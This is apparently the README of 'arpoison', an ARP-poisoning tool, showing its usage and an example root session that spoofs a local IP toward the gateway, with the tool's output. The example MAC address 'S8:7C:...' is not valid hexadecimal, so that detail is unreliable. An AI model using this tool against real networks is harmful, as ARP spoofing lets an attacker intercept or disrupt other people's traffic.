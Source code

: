 # arpoison
# ARP-poisoning tool
# USAGE:
<pre><font color="#EF2929"><b>root@ASUS</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison -s 192.168.1.15 -t 192.168.1.1 -m E8:CC:18:5B:9D:62
./arpoison - Send arbitrary ARP replies
Usage: ./arpoison [-i interface] -s ip_address -t dest_ip
    -i    interface to send on
    -s    IP address we are claiming to be
    -t    IP address of recipient
    -m    Ethernet MAC address of recipient
</pre> 

# EXAMPLE:
<pre><font color="#EF2929"><b>root@ASUS</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison -i wlan0 -s 192.168.1.15 -t 192.168.1.1 -m S8:7C:18:5B:9D:62
[i] Using interface wlan0
[+] spoof IP:	192.168.1.15 (192.168.1.15)
[+] target IP:	192.168.1.1 (_gateway)
[+] target MAC:	S8:7C:18:5B:9D:62
[+] my MAC:	A4:35:B0:84:0A:87
[i] Building ARP packet...done
[i] Enveloping Ethernet frame...done
[+] Sending stage 0
[+] Sending stage 1
[+] Sending stage 2
[+] Sending stage 3
[+] Sending stage 4
[+] Sending stage 5
</pre>
